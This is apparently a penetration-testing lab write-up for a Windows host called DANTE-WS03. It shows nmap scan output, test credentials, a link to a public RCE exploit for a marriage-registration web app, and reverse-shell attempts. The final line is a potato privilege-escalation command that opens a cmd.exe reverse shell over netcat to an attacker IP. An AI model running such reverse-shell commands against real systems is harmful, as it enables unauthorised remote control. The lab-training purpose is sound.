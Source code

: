 ## NMAP
```
❯ nmap -sVC -Pn -T4 172.16.1.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-09 16:31 PST
Nmap scan report for 172.16.1.102
Host is up (0.081s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.0)
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.0
|_http-title: Dante Marriage Registration System :: Home Page
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.0)
| tls-alpn:
|   h2
|_  http/1.1
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=TESTING CERTIFICATE
| Subject Alternative Name: DNS:localhost
| Not valid before: 2022-06-24T01:07:25
|_Not valid after:  2022-12-24T01:07:25
|_http-title: Dante Marriage Registration System :: Home Page
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MySQL (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DANTE-WS03
| Not valid before: 2023-12-07T22:50:38
|_Not valid after:  2024-06-07T22:50:38
| rdp-ntlm-info:
|   Target_Name: DANTE-WS03
|   NetBIOS_Domain_Name: DANTE-WS03
|   NetBIOS_Computer_Name: DANTE-WS03
|   DNS_Domain_Name: DANTE-WS03
|   DNS_Computer_Name: DANTE-WS03
|   Product_Version: 10.0.19041
|_  System_Time: 2023-12-10T00:31:53+00:00
|_ssl-date: 2023-12-10T00:32:04+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-12-10T00:31:54
|_  start_date: N/A
|_nbstat: NetBIOS name: DANTE-WS03, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b0:9e (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.82 seconds
```

## Webpage

![[Pasted image 20231211090934.png]]

Create username 9876543210 : Password123

After doing research I discover the system is vulnerable to https://github.com/ricardojoserf/omrs-rce-exploit

![[Pasted image 20231211092451.png]]

![[Pasted image 20231211092554.png]]

## Moving NC64.exe

![[Pasted image 20231211092817.png]]

Netcat reverseshell wouldn't work so I attempted a powershell RS

![[Pasted image 20231211093621.png]]

![[Pasted image 20231211093540.png]]

![[Pasted image 20231211093638.png]]

.\gopotato.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe 10.10.14.21 4444"